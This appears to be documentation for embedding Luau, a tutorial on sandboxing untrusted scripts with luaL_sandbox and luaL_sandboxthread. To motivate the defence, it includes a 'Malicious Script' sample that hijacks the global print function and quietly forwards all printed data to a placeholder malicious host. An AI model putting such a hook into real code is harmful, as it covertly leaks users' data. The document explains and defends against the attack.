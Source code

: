 # Sandboxing

## The Problem

Consider loading untrusted Luau code. By default, all code will share the same global environment. If a malicious script decides to modify the global environment, this will affect all other scripts. Consider the following example:

```luau title="Malicious Script"
local p = _G.print
_G.print = function(...)
	-- Still log things out so it appears as if all is normal:
	p(...)

	-- Intercept all print statements and send them off somewhere:
	someHttpThing:Send("http_somewhere_bad", {...})
end
```

```luau title="Victim Script"
-- This seems to work, but the previous script has intercepted
-- the message and sent it off to some malicious website.
print("Hello!")
```

## Sandboxing State

Sandboxing creates a safer environment for potentially untrusted Luau code. When sandboxing is enabled, all libraries, built-in metatables, and globals are set to read-only. There are also some performance benefits to sandboxing, and thus it is recommended to always turn it on.

To turn on sandboxing, call `luaL_sandbox(L)` _after_ opening up libraries and _before_ loading any Luau code.

```cpp title="Sandboxing" hl_lines="4"
lua_State* L = luaL_newstate();
luaL_openlibs(L);

luaL_sandbox(L);
```

Now, if a malicous script attempts to modify the global state, an error will be thrown:

```luau title="Malicous Attempt"
-- Throws an error: "attempt to modify a readonly table" (in this case, the _G global table)
_G.print = function(...) end
```

However, we have introduced an undesired side-effect: We can now no longer create _anything_ within the global scope. Consider the following snippet of unharmful Luau:

```luau
function add(a: number, b: number)
	return a + b
end
```

This would _also_ throw the same error: `"attempt to modify a readonly table"`. In this particular example, writing `local function add(a, b)` would solve the issue. But this is enough friction to become problematic, especially for existing code. Thus, sandboxing our Luau state is not the final step. We need to do one more thing.

## Sandboxing Scripts

If we want our previous Luau code to work, we need to sandbox the _script_ thread too. We can do this with the `luaL_sandboxthread` function. This function will create a proxy to our global `_G`. This is done by creating a new table for `_G`, and then assigning a metatable which has an `__index` field pointing to the original `_G` table.

We want to do this _along_ with sandboxing our top-level state. Sandbox the Luau state with `luaL_sandbox`, and then sandbox each script execution with `luaL_sandboxthread`.

**Note:** This operation should be done per logical "script" and not for every single thread created. Doing this for every thread can lead to performance issues and also recursive depth errors, due to long `__index` chains to get back to the original `_G` table. Thus, only call `luaL_sandboxthread` for a thread that acts as the top-level state for a given script. Any threads created from this thread will also inherit this proxied global table.

```cpp title="Sandboxing Thread" hl_lines="7"
// Call run_script AFTER we have sandboxed our initial state
static int run_script(lua_State* L, const std::string& name, const std::string& bytecode) {
	// Create a thread to act as our script environment:
	lua_State* script = lua_newthread(L);

	// Sandbox it:
	luaL_sandboxthread(script);

	// Load our bytecode onto the script thread:
	int res = luau_load(script, (std::string("=") + name).c_str(), bytecode.data(), bytecode.length(), 0);

	if (res != 0) {
		// ...handle error
		return res;
	}

	// Run the script:
	int status = lua_resume(script, nullptr, 0);
	if (status != LUA_OK) {
		// ...handle error status or yield status
	}

	// Pop script thread off of 'L'
	lua_pop(L, 1);
}

static void example() {
	lua_State* L = luaL_newstate();
	luaL_openlibs(L);
	luaL_sandbox(L);

	std::string bytecode = compile_script(some_sourcecode);
	run_script(L, "example", bytecode);

	lua_close(L);
}
```

With this example, we can run multiple different scripts with `run_script`. Each script could modify their own global environment without affecting the global environment of other scripts. In other words, their environment has been sandboxed!
